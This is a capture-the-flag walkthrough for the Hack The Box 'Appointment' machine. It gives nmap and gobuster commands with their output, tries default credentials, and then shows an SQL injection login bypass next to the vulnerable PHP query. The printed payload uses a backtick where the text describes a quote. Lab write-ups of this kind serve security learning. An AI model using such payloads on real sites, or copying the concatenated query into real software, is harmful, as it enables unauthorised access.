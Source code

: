 # [Appointment](https://app.hackthebox.com/starting-point)

## Target IP - 10.129.164.45

### Enumeration

Here we are scanning the target machine for open ports and services also we added to scan for the default scripts. In result we found that apache server is running on the target which means that this target is hosting a site on the address.

**Command 1** -

`nmap -sC -sV 10.129.164.45`
**Output** -

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-22 23:40 IST
Nmap scan report for 10.129.164.45
Host is up (0.60s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Login

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 86.48 seconds
```
Now we accessed the site on the http://10.129.164.45/

![Login page image](https://github.com/goobar07/HTB-30_Day-Challenge/blob/main/Tier_1/Appointment/Photo_1)

Now we will use gobuster to find all the possible directories present in the site. The wordlist we used was downloaded through github the repo name is `SecLists`. In conclusion we found 5 directories which are used by the target on the web site.

**Command 2** -

`gobuster dir --url http://10.129.164.45/ --wordlist ~/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt`

**Output** -

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.164.45/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/goobar07/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 315] [--> http://10.129.164.45/images/]
/css                  (Status: 301) [Size: 312] [--> http://10.129.164.45/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.129.164.45/js/]
/vendor               (Status: 301) [Size: 315] [--> http://10.129.164.45/vendor/]
/fonts                (Status: 301) [Size: 314] [--> http://10.129.164.45/fonts/]
Progress: 87664 / 87665 (100.00%)
===============================================================
Finished
===============================================================
```

### Foothold

Now we tried these combination on the login page, but they didn't worked.

```
admin:admin
guest:guest
user:user
root:root
administrator:password
```

Now we will use the sql injection to get the access of the website using the login page. Here is an example how a username and password get checked in the `PHP & SQL` which can be exploited by adding a `' #` which will close the string and also make the end of the query comment. In conclusion we got the access to the flag page using these credentials.

`$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";`

```
username: admin`#
password: abc123
```

![Flag page image](https://github.com/goobar07/HTB-30_Day-Challenge/blob/main/Tier_1/Appointment/Photo_2)

### This machine has been pawned

~goobar07
